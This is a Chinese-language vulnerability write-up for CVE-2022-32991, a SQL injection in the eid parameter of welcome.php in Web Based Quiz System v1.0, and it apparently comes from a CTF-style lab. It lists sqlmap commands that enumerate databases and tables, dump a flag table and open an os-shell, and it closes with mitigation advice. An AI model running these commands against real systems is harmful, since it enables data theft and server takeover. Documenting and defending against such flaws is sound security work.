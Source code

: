 # CVE-2022-32991 Web Based Quiz System SQL Injection

## Description

Web Based Quiz System v1.0 的 welcome.php 中的eid参数被发现包含一个SQL注入漏洞。

## Explanation of exploit; PoC

1. 漏洞文件welcome.php位于网站根目录。第93行没有过滤eid参数，在第96行直接带入数据库查询，导致SQL注入漏洞：

   ![](images/CVE-2022-32991-1.png)

2. 先注册一个普通用户然后登录，然后点击 start 按钮，用 Burp Suite 抓取数据包如下图：

   ![](images/CVE-2022-32991-2.png)

3. 将数据包保存为 eid.txt，使用sqlmap获取数据库信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid`，如下图：

   ![](images/CVE-2022-32991-3.png)

   ![](images/CVE-2022-32991-4.png)

4. 获取数据库信息后，使用sqlmap获取表信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf --tables`，如下图：

   ![](images/CVE-2022-32991-5.png)

5. 获取表信息后，使用sqlmap获取列信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf -T flag --columns`，如下图：

   ![](images/CVE-2022-32991-6.png)

6. 获取列信息后，使用sqlmap获取数据，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf -T flag -C flag --dump`，如下图：

    ![](images/CVE-2022-32991-7.png)

7. 也可以获取 os-shell, sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid --os-shell`，如下图：

   ![](images/CVE-2022-32991-8.png)

## Mitigation

1. 对输入的数据进行过滤，防止SQL注入漏洞。
2. 使用预编译语句，防止SQL注入漏洞。

## Refer

- https://nvd.nist.gov/vuln/detail/CVE-2022-32991
- https://www.yuque.com/docs/share/fd95cc4d-2a38-4e5a-9fac-bfa3534f8056